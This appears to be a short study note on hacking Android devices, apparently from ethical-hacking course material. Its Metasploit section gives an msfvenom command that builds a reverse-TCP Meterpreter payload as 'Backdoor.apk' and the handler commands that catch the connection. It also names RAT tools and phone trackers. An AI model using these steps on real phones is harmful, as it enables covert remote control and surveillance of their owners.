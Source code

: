 

2025-08-18 23:12

Status:

Tags:

# Hacking Mobile Platforms

## Hacking Android OS

#### Exploiting Android Devices Using Metasploit 
1.  Run the following commands to view Android exploits and Android payloads for hacking an Android device
	- `` search type:exploit platform:android o msf`` 
	- ``search type:payload platform:android``
2. command to build a custom payload:
	- ``msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=<Local Host IP Address> R > Desktop/Backdoor.apk
3.  Open listener 
	- ``use exploit/multi/handler`` 
	- ``set PAYLOAD android/meterpreter/reverse_tcp  ``

### Android Hacking Tools
some of the tools that are used in Android hacking are 
- AndroRAT 
-  Ghost Framework 

### Android-based Sniffers 
-  PCAPdroid
### Android Device Tracking Tools
- Google Find My Device 
-  Find My Phone 
-  Prey: Find My Phone & Security (https://play.google.com) 
- Phone Tracker and GPS Location (https://play.google.com) 
- Mobile Tracker for Android (https://play.google.com) 
- Lost Phone Tracker (https://play.google.com) 
- Phone Tracker By Number (https://play.google.com)

### Android Vulnerability Scanners 
-  Quixxi App Shield 
-  Android Exploits (https://play.google.com) 
- ImmuniWeb® MobileSuite (https://www.immuniweb.com) 
- Yaazhini (https://www.vegabird.com) 
- Vulners Scanner (https://play.google.com)

### Static Analysis of Android APK Using Mobile Security Framework (MobSF)
Security analysts can use the Mobile Security Framework (MobSF) tool to perform static and dynamic analyses of suspected Android APK files. 
 go to the https://mobsf.live/ website, and upload the suspicious APK file by clicking on the Upload & Analyze button to start static analysis.
